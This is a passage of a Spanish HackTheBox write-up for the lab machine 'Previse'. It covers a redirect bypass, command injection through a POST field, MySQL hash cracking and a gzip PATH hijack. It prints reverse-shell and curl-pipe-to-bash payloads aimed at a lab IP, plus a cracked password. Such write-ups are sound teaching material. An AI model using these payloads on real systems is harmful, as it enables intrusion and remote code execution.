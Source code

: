 ```yaml
---
layout      : post
title       : "HackTheBox - Previse"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373banner.png
category    : [ htb ]
tags        : [ path-hijacking, code-analysis, bypass-redirect, command-injection, cracking, sudo ]
---
```

Máquina **Linux** nivel fácil. Vamos a bypassear redirecciones, inyectar comandos en peticiones, crakeaziohn de hashes salados yyyyy a jugamientos con un **Path Hijacking** para ejecutar comandos como diosito.

![373previseHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373previseHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [m4lwhere](https://www.hackthebox.eu/profile/107145).

La paciencia, la pa ci en cia.

Encontraremos una web con un **login panel** inicialmente, existen otros recursos, pero gracias a los `redirects` no tendremos acceso a ellos. Jugaremos un **Burp** para modificar los códigos de estado y así ver lo que antes no 👻.

Podremos crearnos una cuenta para pasar el **login panel**, estando dentro veremos un objeto comprimido que contiene un backup del sitio en el que estamos, por lo que podemos ver el código `PHP` de los recursos con los que interactuamos.

Encontraremos la posibilidad de inyectar comandos en una petición, usándola lograremos una **Reverse Shell** en el sistema como el usuario `www-data`.

Enumerando el servicio `MySQL` tendremos las credenciales de los usuarios del sitio web. Entre ellos esta `m4lwhere` que también es usuario del sistema, jugando con `John The Ripper` crackearemos su contraseña y haciendo reutilización de contraseñas lograremos una sesión por `SSH` como ***m4lwhere***.

Finalmente, encontraremos un script que llama al binario `gzip` sin una ruta absoluta, apoyados en que tenemos permisos como `root` para ejecutar ese script, efectuaremos un `Path Hijacking` y obtendremos una Shell en el sistema como ***root***.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

G

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Es como si no estuvieras viviendo realmente...

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Ahondamos por el servidor web del puerto 80](#puerto-80).
3. [Explotación](#explotacion).
  * [Bypasseamos **redirect** al intentar crearnos una cuenta en la web](#accounts-avoid-redirect).
  * [Inspeccionando código fuente de los objetos del sitio web](#web-code-analysis).
  * [Logramos **RCE** usando un **command injection** en recurso de la web](#web-command-injection).
4. [Movimiento lateral - Crackeamos contraseñas de la db](#mysql-cracking-m4lwhere).
5. [Escalada de privilegios](#escalada-de-privilegios).
  * [Encontramos posible **Path Hijacking** contra el binario **gzip** y explicamos que haremos](#gzip-path-hijacking).
  * [Efectuamos **Path Hijacking** y ejecutamos comandos como **root**](#gzip-doing-path-hijacking).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

---

## Enumeración de puertos con nmap [🔗](#enum-nmap) {#enum-nmap}

Como siempre empezaremos descubriendo que puertos (servicios) están abiertos en la máquina, usaremos `nmap` para eso:

```bash
❱ nmap -p- --open -v 10.10.11.104 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

Nos devuelve:

```bash
# Nmap 7.80 scan initiated Mon Aug 23 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.11.104
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.104 () Status: Up
Host: 10.10.11.104 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Mon Aug 23 25:25:25 2021 -- 1 IP address (1 host up) scanned in 97.77 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)**: Nos permite obtener una Shell de forma segura. |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Nos ofrece un servidor web. |

Lo siguiente será intentar descubrir que versión esta siendo ejecutada en cada servicio y además si alguno de los scripts de `nmap` nos muestra algo adicional contra ellos:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, en este caso son solo 2 puertos, pero donde fueran muchos más seria muuuy útil**

```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.11.104
    [*] Open ports: 22,80

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 22,80 -sC -sV 10.10.11.104 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
# Nmap 7.80 scan initiated Mon Aug 23 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.11.104
Nmap scan report for 10.10.11.104
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 23 25:25:25 2021 -- 1 IP address (1 host up) scanned in 21.35 seconds
```

Y obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80     | HTTP     | Apache httpd 2.4.29 |

Vemos un `login.php`, pero poco más, exploremos a ver que encontramos.

# Enumeración [#](#enumeracion) {#enumeracion}

---

## Dando vueltas por el puerto 80 [🔗](#puerto-80) {#puerto-80}

Si nos dirigimos a la web encontramos un **login panel**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373page80.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Intentando credenciales por default no logramos pasarlo y probando algún **bypass** tampoco, así que sigamos enumerando...

Podemos probar a descubrir directorios y archivos que la web esté sirviendo, pero que están fuera de nuestra vista (fuzzeo):

```bash
❱ dirsearch.py -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://10.10.11.104
...
Target: http://10.10.11.104/

[25:25:25] Starting: 
[25:25:25] 302 -    3KB - /index.php  ->  login.php
[25:25:25] 200 -    2KB - /login.php
[25:25:25] 302 -    0B  - /download.php  ->  login.php
[25:25:25] 200 -    0B  - /config.php
[25:25:25] 200 -  217B  - /footer.php
[25:25:25] 200 -  980B  - /header.php
[25:25:25] 200 -   15KB - /favicon.ico
[25:25:25] 302 -    0B  - /logout.php  ->  login.php
[25:25:25] 302 -    3KB - /.  ->  login.php
[25:25:25] 403 -  277B  - /.html
[25:25:25] 403 -  277B  - /.php
[25:25:25] 302 -    3KB - /status.php  ->  login.php
[25:25:25] 403 -  277B  - /.htm
[25:25:25] 403 -  277B  - /.htpasswds
[25:25:25] 200 -    1KB - /nav.php
[25:25:25] 302 -    4KB - /accounts.php  ->  login.php
[25:25:25] 302 -    5KB - /files.php  ->  login.php
[25:25:25] 403 -  277B  - /wp-forum.phps
[25:25:25] 403 -  277B  - /.htuser
[25:25:25] 403 -  277B  - /.htc
[25:25:25] 403 -  277B  - /.ht
...
```

Opa, hay varios archivos, pero la mayoría nos redireccionan (status **302**) al objeto `login.php` (donde estamos), validando contra los que no nos redireccionan a ningún lado llegamos a `nav.php`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373page80_navPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos un tipo de "menú" en el que se referencian los objetos que vimos antes, por lo cual también llegaremos a `login.php`, peeeeeeeeeeero hay nombres muy interesantes, el que más resaltó fue ***Create Account (`accounts.php`)***, ya que tenemos un **login panel**, pero no una *cuenta*, por lo que si llegamos a crear una, podremos usarlo ¿no?

# Explotación [#](#explotacion) {#explotacion}

---

## Evitamos <u>redirect</u> al interactuar con la web [🔗](#accounts-avoid-redirect) {#accounts-avoid-redirect}

Acá recordé algo que podemos probar. Sabemos que si vamos por ejemplo a `accounts.php` seremos redireccionados (status **302**) al recurso `login.php`, peeeeero ¿y si interceptamos la petición hacia ***accounts.php*** y en vez del status code ***302*** lo cambiamos por un `200 Ok`?

* [Códigos de estado de respuesta HTTP](https://developer.mozilla.org/es/docs/Web/HTTP/Status#respuestas_satisfactorias).

Al hacer eso le estaríamos diciendo que en vez de un **redirect** nos devuelva el contenido del objeto consultado (si lo encuentra) 🤗

> Usemos **BurpSuite** para que sea más grafico...

### Jugando con <u>BurpSuite</u> y las respuestas del servidor [🕹️](#accounts-burp) {#accounts-burp}

Lo primero será activar una opción (flecha izquierda) y desactivar otra (pos flecha derecha) para que nos permita modificar la respuesta del servidor:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_proxyOptions_InterceptRES.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listos, ahora sí, activamos el proxy tanto en **Burp** como en la web, hacemos una petición hacia `accounts.php` (dando clic en **Create Account**) y en nuestro **Burp** veríamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_accountsPHP_get.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en `forward` para que siga con la petición y obtenemos...

* El código de estado indicando un **redirect** (`302 Found`):

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_accountsPHP_302Found1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* Opaaa, tamos viendo la respuesta del archivo `accounts.php`.

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_accountsPHP_302Found2.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

* El formulario con el que envía los datos de creación.

  <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_accountsPHP_302Found3.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Peeeeerrrrfectooooooo, ya teniendo los datos del formulario podríamos jugar con cositas, peeeeeeeeeero hagamos lo que vinimos a hacer :P cambiemos el status code `302 Found` por `200 OK`:

**Antes**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_accountsPHP_302Found1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

**Después**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_accountsPHP_200OK.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en `forward` para que envíe la petición. Y en la web vemooooooooooooooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373page80_accountsPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

(***El diseño es <u>taaaaaan</u> blanco que nos vamos a quedar sin ojitos***)

VAMOOOOOOOOOOOOOOOOOOOOOS, logramos ver el contenido renderizado del recurso `accounts.php` bypasseando el **redirect** inicial ¿lindo no?

...

Bien, ahora que podemos crear cuentas, pues generemos una...

Después de hacerlo nos redirecciona a `login.php`, escribimos las credenciales que usamos para crear la cuenta yyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373page80_dashboard.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pelfeto, tamos dentro del servidor web (: Visitando **FILES** (que nos lleva a `files.php`) vemos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373page80_filesPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

😮 hay un comprimido que parece contener un **backup** del sitio web, si damos clic sobre él se descarga:

```bash
❱ file siteBackup.zip 
siteBackup.zip: Zip archive data, at least v2.0 to extract
```

Pues... juguemos...

## Viendo código fuente (objetos del sitio web) [🔗](#web-code-analysis) {#web-code-analysis}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_unzip_siteBackup_files.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pues sí, es un backup de los objetos que maneja la página web, pues demos algunas vueltas a ver que encontramos en ellos...

De primeras el objeto llamativo es `config.php`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_cat_configPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAMO PA IA! Tenemos las credenciales usadas por el usuario `root` contra el servidor de base de datos `MySQL`. Intentando reutilización de contraseñas no logramos que sean funcionales, pero quizás cuando estemos adentro del sistema (que lo estaremooooooooooooooos) podamos probar `mysql` con esas creds...

Revisando el objeto `logs.php` vemos una interacción bastaaaaaaante llamativa:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_cat_logsPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> 📑 [Código completo: **logs.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/previse/backup_site_files/logs.php)

Ufff, lo primero que vemos es que esta ejecutando en el sistema (`exec(...)`) un script de `Python` llamado `log_process.py` que recibe un argumento, peeeeeeero el argumento lo toma del contenido de la variable `delim` que viaja con el método `POST` sin ninguna validación 😳 ¿Y de dónde llega esa variable? Bien, acá entra el objeto `file_logs.php`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_cat_fileLogsPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> 📑 [Código completo: **file_logs.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/previse/backup_site_files/file_logs.php)

Como vemos toma una opción entre `comma`, `space` o `tab` y una vez es procesada la petición se envía al recurso `logs.php` la variable `delim` mediante el método **POST**:

```php
...
    <form action="logs.php" method="post">
...
        <select class="uk-select" name="delim" id="delim-log">
...
```

En la web sería este output:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373page80_fileLogsPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si interceptamos con `Burp` al momento de dar `Submit` veríamos la petición y el campo `delim`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_logsPHP_delimNORMAL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y si la procesamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_logsPHP_delimNORMAL_res.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos una lista de ítems separados por ***comas*** (el valor de `delim`) de las veces que un usuario ha intentado descargar algún archivo del sitio, no profundizaré en esto, pero les dejo el recurso con el que se genera ese contenido, solo relaciónenlo con `logs.php` y les queda claritico.

> 📑 [Código completo: **download.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/previse/backup_site_files/download.php)

Así que el que separa los ítems es el programa de `Python`. Volvamos a ver el código para ahora si jugar con esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_cat_logsPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> 📑 [Código completo: **logs.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/previse/backup_site_files/logs.php)

Si simulamos la interacción seria algo así si a `delim` le llega **comma**:

```html
...
delim=comma
```

```php
...
exec("/usr/bin/python /opt/scripts/log_process.py comma")
...
```

No hay validación ni sanitizacion de nada, por, lo, queeeeeeee, apoyados en que esta usando `exec()` y prácticamente estamos interactuando a fuuuull con la función, podríamos enviar en `delim` ialgo como:

```html
...
delim=comma;whoami
```

```php
...
exec("/usr/bin/python /opt/scripts/log_process.py comma;whoami")
...
```

Por lo que la función `exec()` ejecutaría el programa de **Python** y como al final encuentra una nueva instrucción (`;`) intentaría ejecutarla, o sea nuestro `whoami` :o

Pos probemoooooooooooooooooos...

## <u>RCE</u> usando <u>command injection</u> en la web [🔗](#web-command-injection) {#web-command-injection}

Interceptamos de nuevo la petición y agregamos nuestro `delim` malicioso:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_logsPHP_delimWHOAMI.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Enviamos yyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_logsPHP_delimWHOAMI_fail.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Nada 🤡

Acá se me ocurrió que quizás se podría estar sobre escribiendo el output del comando, ya que el objeto `logs.php` tiene dos outputs largos, entonces pensé en intentar el `command injection`, pero que el output del comando nos lo envíe a un puerto en el que estemos en escucha, pues probemos (acostúmbrense a probar de todoooooooooooooooo, hasta lo más loco y obvio):

Levantamos el puerto `4433` con `netcat`, ahí será donde le indiquemos que envíe el resultado (en caso de que exista el `command injection`) del comando:

```bash
❱ nc -lvp 4433
```

Y ahora en la petición:

```html
delim=whoami | nc 10.10.14.93 4433
```

URLencodeada para que tome tooodo como una misma línea:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burp_logsPHP_delimWHOAMIandNETCAT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Enviamos yyyyyyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_nc_id_RCEasWWW_delim_commandInjection.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PEEEEEEEEEEEEEEEERFECTOOOOOOOOOOOOOOOOO, recibimos la petición y vemos el resultado del comando `whoami`, somos `www-data`, por lo cuaaaaaal, tenemos ejecución remota de comandos en el sistemaaaaaaaaaaaaaa.

⛷️ 🏂

Entablémonos una reverse shell... 

De las formas que intente la que me funciono fue esta: 

> (***Lo primero es validar si existe `curl` o `wget` en el sistema: apoyados en la explotación haríamos algo así: `delim=comma;which curl | nc 10.10.14.93 4433` y si nos devuelve la ruta absoluta de `cURL`, sabemos que existe, en este caso la devolvió***).

Levantamos un servidor web con **Python**:

```bash
❱ python3 -m http.server
```

Creamos un archivo `.sh` el cual va a contener tooooodas las instrucciones que queremos que el sistema ejecute, en este caso nuestra reverse shell:

```bash
❱ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.93/4433 0>&1
```

Ahora volvemos a levantar el puerto `4433` para recibir la shell ahí:

```bash
❱ nc -lvp 4433
```

Y finalmente usando `delim` ejecutamos:

```html
...
delim=comma;curl http://10.10.14.93:8000/rev.sh | bash
```

URLencodeado:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373burl_logsPHP_delimREVSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Lanzamos la petición y en nuestro `netcat`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_wwwdataRevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

T E N E M O S acceso a la máquina como el usuario `www-data` :(:(:(:(:(:

Antes de seguir hagamos que nuestra Shell sea bonita (tratamiento de la TTY) y además de eso que nos permita ejecutar `Ctrl^C`, movernos entre comandos y tener histórico de lo que hemos ejecutado:

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty).

Sigamos juaquiando...

...

> **Cree un script que automatiza la obtención de la Reverse Shell - [rediRCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/previse/rediRCE.py)**

...

# MySQL (cracking): www-data -> m4lwhere [#](#mysql-cracking-m4lwhere) {#mysql-cracking-m4lwhere}

Si recordamos teníamos credenciales contra el servicio `mysql`, veamos si son válidas:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_wwwdataSH_mysql.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Son válidas, pues profundicemos a ver si hay algo que nos sirva pa' algo...

Existen estas bases de datos:

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
```

Veamos primero `previse`:

```bash
mysql> use previse;
```

Listemos sus tablas:

```mysql
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
```

Solo dos, descubramos lo que hay en `accounts`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_wwwdataSH_mysql_SELECTfromACCOUNTS_hashes.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, tenemos la tabla donde se guardan todos los usuarios de la web, como usuario principal vemos a `m4lwhere`, que también es un usuario del sistema:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_wwwdataSH_FOUNDm4lwhereUSER.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Pos tomemos los **hashes** (contraseñas), creémonos un archivo con ellas dentro e intentemos crackearlas (pasar de **hash** a texto plano):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_hashesWEBSITEdone.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

(Claramente quito a `lanza` que fue la cuenta que yo cree :P)

...

SPOILEEEEEEEEEER THINGGGGG

Antes de seguir, algo curioso de los hashes es que tienen un símbolo que no es reconocido por la terminal, pero si copiamos cualquiera de ellos y lo pegamos en el navegador, vemos que contiene:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373google_hashEMOJIsalt.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Un emoji de un tarrito de sal, queeeee si buscamos en nuestros archivos (ya sea en `/var/www/html` o en los que nos devolvió el comprimido con el backup) el objeto `accounts.php` contiene la creación del hash y la asignación de esa [salt](https://es.quora.com/Qu%C3%A9-significa-agregar-un-salt-a-una-contrase%C3%B1a-hash):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_cat_accountsPHP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Solo quería mostrarles eso :P y decir que da igual que sea un emoji, finalmente es un conjunto de texto llevado a imagen, si existe coincidencia al crackearlo, nos lo mostrara (:

...

Jugaremos con `John the Ripper`:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt hashes_website_done 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
...
```

**John** nos indica que le podemos agregar el formato `md5crypt-long` (que él detecta que los hashes son de ese tipo) para que si o si pruebe únicamente contra ese formato, pos démosle:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hashes_website_done
```

Esperamos un rato a que juegue con toooodo el archivo `rockyou.txt` (nuestro diccionario) yyyyyyyyyyyy:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hashes_website_done 
...
admin123         (admin)
...
ilovecody1l2235! (m4lwhere)
...
```

Opaaaaaaaaaaa, las contraseñas en texto plano de los dos usuarios de la web, pero nos quedaremos con la de `m4lwhere` e intentaremos reutilización de contraseñas a ver si son válidas contra el sistema:

```bash
❱ ssh m4lwhere@10.10.11.104
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_ssh_m4lwhereSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VA PA IIIIIIIIII, son válidas y tenemos una sesión en el sistema como él (:

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando el sistema encontramos el script que se usa en la web y además vemos otro:

```bash
m4lwhere@previse:/opt/scripts$ ls -la
total 16
drwxr-xr-x 2 root     root     4096 Jul 26 18:41 .
drwxr-xr-x 3 root     root     4096 Jul 26 18:41 ..
-rwxr-xr-x 1 root     root      486 Jun  6 12:49 access_backup.sh
-rw-r--r-- 1 m4lwhere m4lwhere  320 Jun  6 12:25 log_process.py
```

Jmmm, `access_backup.sh`, tenemos permisos tanto de lectura como de ejecución, a veeeel:

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Ojito, hay dos cosas bastaaante interesantes, esta referencia:

> This is configured to run with cron, added to sudo so I can run as needed

Que nos indica que la tarea ha sido asignada a una `crontab` yyyyy además agregada al archivo `sudoers` para que podamos correrla usando `sudo`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_m4lwhereSH_sudoL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Efectivamente, podemos ejecutar `/opt/scripts/access_backup.sh` como otro usuario, en este caso como `root` 🤸‍♂️

Y lo otro interesante es la forma en que llama al binario `gzip`:

> `gzip -c ...`

Lo hace sin una ruta absoluta, ¿ya sabes que sigue y que vamos a explotar? Ajá, un **Path Hijacking**...

## Explicación rápida del <u>Path Hijacking</u> que haremos [🔗](#gzip-path-hijacking) {#gzip-path-hijacking}

---

* [Linux Privilege Escalation Using PATH Variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

Un ***Path Hijacking*** es muy sencillo de entender, todo se centra en la variable `PATH` del sistema:

```bash
m4lwhere@previse:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Él -sistema- usa esa variable para buscar en cada uno de los directorios que la componen los programas que ejecutamos en la línea de comandos.

En este caso vamos a ejecutar el programa `gzip` (que sirve para comprimir objetos), busquémoslo y obtengamos su ruta absoluta:

```bash
m4lwhere@previse:~$ which gzip
/bin/gzip
```

Ahí la tenemos, por lo que al ejecutar `gzip` (sin ruta absoluta) en la terminal, va a buscar en cada directorio del `PATH` y finalmente encontrara que el binario esta alojado en `/bin`, gráficamente seria esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_echoPATH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

ENTOOOOOOOOOOOOONCES, la explotación se basa en que nosotros generemos un archivo llamado `gzip` y -secuestremos- la variable `PATH` para que al ejecutar `gzip` el sistema encuentre PRIMERO el objeto que nosotros creamos. POOOOOOOOOOOOR lo que ejecutara tooodo lo que contenga (:

Como en este caso el binario `gzip` puede ser ejecutado como el usuario `root`, todo lo que tenga será ejecutado como tal, explotemos esta vaina...

## Hacemos el <u>Path Hijacking</u> [🔗](#gzip-doing-path-hijacking) {#gzip-doing-path-hijacking}

Guardamos el valor del `PATH` por si algo:

```bash
m4lwhere@previse:~$ old_path=$PATH
